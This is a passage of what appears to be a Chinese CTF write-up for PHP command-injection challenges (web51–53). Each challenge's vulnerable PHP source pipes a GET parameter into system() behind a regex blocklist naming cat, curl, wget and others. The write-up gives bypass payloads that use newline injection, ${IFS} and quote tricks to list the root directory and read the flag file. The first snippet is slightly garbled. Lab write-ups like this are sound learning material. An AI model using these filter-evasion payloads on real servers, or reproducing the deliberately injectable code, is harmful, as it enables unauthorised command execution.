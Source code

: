 ```php
<?php

sset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

这回额外过滤了 `tac` ,但是我们还可以用 `nl`

```
?c=nl<fla\g.php%0a
```

## web52~多过滤重定向符但没过滤 $

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}

```

额外过滤了 重定向符 ` <  >` ,但是这里没过滤 `$`

去查 `?c=nl${IFS}fla\g.php%0a` 得到 `	$flag="flag_here";` 得到了一个假的flag.

查询根目录有啥文件

```
?c=ls${IFS}/%0a
# bin dev etc flag home lib media mnt opt proc root run sbin srv sys tmp usr var 

?c=nl${IFS}/fla''g%0a
```

## web53

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```